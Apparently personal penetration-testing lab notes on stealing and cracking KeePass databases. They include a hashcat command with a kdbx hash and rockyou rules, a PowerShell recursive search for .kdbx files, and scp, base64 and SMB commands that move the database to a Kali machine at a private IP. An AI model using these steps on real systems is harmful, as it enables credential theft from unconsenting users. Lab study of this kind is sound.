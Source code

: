 # For keepass kdbx
```
hashcat -m 13400 '$keepass$*2*1*0*b1a85c5029830d00eead372eff9b2c0c5f2b78d8adf6090568429ba7b9622f25*27ab0d96aaacbb427dc6e9746fcf5148a468d042855186d3d1409d40ca018fa1*2eb108ae671a4aebcfa4217b5dcdccdc*ea47adcf48185eb7d670b25a3b2f8a535eb72339bbdf2e0d05c892bad22287f0*e250173255fbe9861707502ebef385c839fd328dac2f7874ff3b0bfc13cf4b56' ~/Desktop/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

use hashcat if john don't work

#Q I just hope we don't have to make rules for hashcat to crack

ls -la /usr/share/hashcat/rules/
few rules are provided

### basic way to make rule and crack

```
hashcat -m 0 hash ~/Desktop/rockyou.txt -r rulr.rule --force
```

![[Pasted image 20240508161536.png]]

This rule will add 1@3$5 after each password in rockyou


hash-identifier tool

# password manager

#searchfileinwindows

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

**This will search #kdbx file from windows**

then get kdbx file to Kali

### few ways to transfer

#### SCP way

How To Transfer Database.kdbx to your Kali machine. I got you. 

First, enable ssh on your Kali machine: 

└─$ sudo service ssh start 

Then Easily from an RDP connection (Windows Machine): 

C:\Users\jason\Documents> scp Database.kdbx kali@192.168.45.155:/home/kali/Desktop

**(Haven't worked for me while doing exercise)****

#### GOLD BASE64!

run in windows from where we want to transfer

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Users\ASUS\Desktop\test.py" -Encoding byte))
<random_string_generated>
```

get that string which generated by above command

```bash
echo paste_that_random_string_generated" | base64 -d > test.py
```

##### check integrity

to check file hash in linux
```bash
md5sum file.txt 
```
to verify that hash

```powershell
Get-FileHash C:\Users\ASUS\Desktop\test.txt -Algorithm md5
```


#### smbserver

start server in kali

![[WhatsApp Image 2024-05-08 at 17.43.01_486f7ed6.jpg]]

```
copy .\Database.kdbx \\192.168.45.233\ROPNOP\database.kdbx
```


(Haven't worked for me while doing exercise)

